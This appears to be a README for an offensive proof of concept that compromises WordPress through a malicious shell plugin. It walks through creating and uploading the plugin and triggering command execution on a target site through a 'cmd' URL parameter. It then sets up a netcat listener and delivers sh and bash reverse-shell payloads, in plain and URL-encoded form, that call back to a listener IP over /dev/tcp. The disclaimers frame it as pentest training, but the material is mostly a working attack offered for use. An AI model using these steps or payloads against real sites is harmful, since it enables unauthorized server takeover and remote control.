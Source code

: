 # 🐚 Shell Plugin PoC — Remote Command Execution via WordPress Plugin

> **⚠️ DISCLAIMER:**  
> This project is for educational and authorized penetration testing purposes **only**. Do not deploy or use without proper consent. Unauthorized use may violate laws and terms of service.

* * *

## 📁 Plugin Creation Steps

```bash
# Create plugin directory
mkdir malicious_shell_plugin/
cd malicious_shell_plugin/

# Create the plugin file
sudo nano malicious-plugin.php
```

**Insert your plugin payload into `malicious-plugin.php`.**

Then:

```bash
# Make the plugin executable (optional for PoC)
sudo chmod +x malicious-plugin.php

# Zip the plugin for upload or transfer
zip -r shell_plugin.zip malicious_shell_plugin/
```

* * *

## 📂 Plugin Deployment

Once the plugin is uploaded and activated via the WordPress admin panel (or directly dropped into the `/wp-content/plugins/` directory), verify its presence:

```
http://1337.codes/wp-content/plugins/shell_plugin/
```

* * *

## 🧪 Proof of Concept (Command Execution)

Execute a test command to verify RCE:

```
http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=id
```

* * *

## 📡 Setting Up a Listener

On your **attacking machine**, set up a listener:

```bash
nc -lvnp 4444
```

* * *

## 🌀 Reverse Shell Payloads

Pick your desired shell from [RevShells](https://www.revshells.com/). Example (encoded for URL use):

### 🐚 `sh` Reverse Shell

```text
sh -i >& /dev/tcp/192.168.45.201/4444 0>&1
```

URL-encoded:

```
sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261
```

### 💥 `bash` Reverse Shell

```text
bash -c "sh -i >& /dev/tcp/192.168.45.201/4444 0>&1"
```

URL-encoded:

```
bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261"
```

Trigger it via browser:

```
http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261"
```

* * *

## 🔒 Ethical Usage Reminder

This PoC is built for **red teaming, pentesting labs, and cybersecurity education**. Use responsibly and within authorized environments only.

* * *

## 🛠 Tools Used

- Netcat (`nc`)
- Custom WordPress plugin
- RevShells.com
- Linux CLI

* * *

## 🧠 About

This plugin demonstrates how weak input validation in custom plugins can lead to **Remote Code Execution (RCE)** on WordPress installations. Always validate inputs, sanitize user input, and follow least privilege principles.
